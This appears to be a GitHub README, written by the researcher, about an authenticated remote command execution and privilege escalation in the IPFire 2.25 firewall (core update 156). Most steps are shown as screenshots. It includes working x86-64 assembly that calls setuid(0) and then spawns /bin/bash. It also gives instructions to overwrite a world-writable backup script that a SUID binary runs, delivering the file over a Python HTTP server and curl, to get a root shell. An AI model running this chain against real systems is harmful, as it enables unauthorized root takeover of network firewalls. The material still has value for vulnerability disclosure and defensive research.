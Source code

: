 # Ipfire 2-25 (core update 156) authenticated rce

- system run command when install any packet
![packfileinstallation](https://user-images.githubusercontent.com/29048982/118332497-ddca6600-b512-11eb-800d-743975184dc6.png)

- system getting 7zip from just html

![pocpc0](https://user-images.githubusercontent.com/29048982/118332642-15391280-b513-11eb-9b6a-0465443ea6b7.png)

- and check the tmp directory

![pocpc1](https://user-images.githubusercontent.com/29048982/118332771-4dd8ec00-b513-11eb-8931-39fb4e84c8e2.png)

- version 2.25 - core update 156

![version](https://user-images.githubusercontent.com/29048982/118335575-a1016d80-b518-11eb-961b-d51230f45b96.png)

- ipfire allows run arbitrary os command as nobody after login

# Be root!

- check the suid binaries

![find-suid](https://user-images.githubusercontent.com/29048982/118407493-aa5e1780-b689-11eb-86a9-1ded561508d2.png)

- backup program run another script. /var/ipfire/backup/bin/backup/backup.pl (it is a bash script and permission is looky good)

![backup-tespiti](https://user-images.githubusercontent.com/29048982/118407546-ded1d380-b689-11eb-8f43-d30bcab0765e.png)

- try the write in to bash script. (No error. GOOD!)

![yazma-denemesi](https://user-images.githubusercontent.com/29048982/118407615-38d29900-b68a-11eb-939e-c8d6310d1389.png)

- try run bash

![yazabilme-kanıtı](https://user-images.githubusercontent.com/29048982/118407649-661f4700-b68a-11eb-8a8b-a249ec483730.png)

- yes. we can run but it is low-privegled. we must trig to setuid(0)!
- save this and run ```alti name.asm q```
- alti is my own compile-check program in soo_deep repo.

```py
bits 64
section .data
  string db "/bin/bash",0x00
  olmadis db "basarisiz.",0x0a,0x00
  olmadil equ $-olmadis
section .text
  global main
main:
  mov rax,105
  mov rdi,0
  syscall
  cmp rax,0
  je getbash

  mov rax,1
  mov rdi,1
  mov rsi,olmadis
  mov rdx,olmadil
  syscall

  mov rax,60
  xor rdi,rdi
  syscall

getbash:
  mov rax,59
  mov rdi,string
  mov rsi,0
  mov rdx,0
  syscall
```

- and write the new program to /var/ipfire/backup/bin/backup/backup.pl. (we can python http server and curl to write)

- and enjoy the root shell!

![image](https://user-images.githubusercontent.com/29048982/118408035-5274e000-b68c-11eb-8e1f-ec2eec6aaf2b.png)

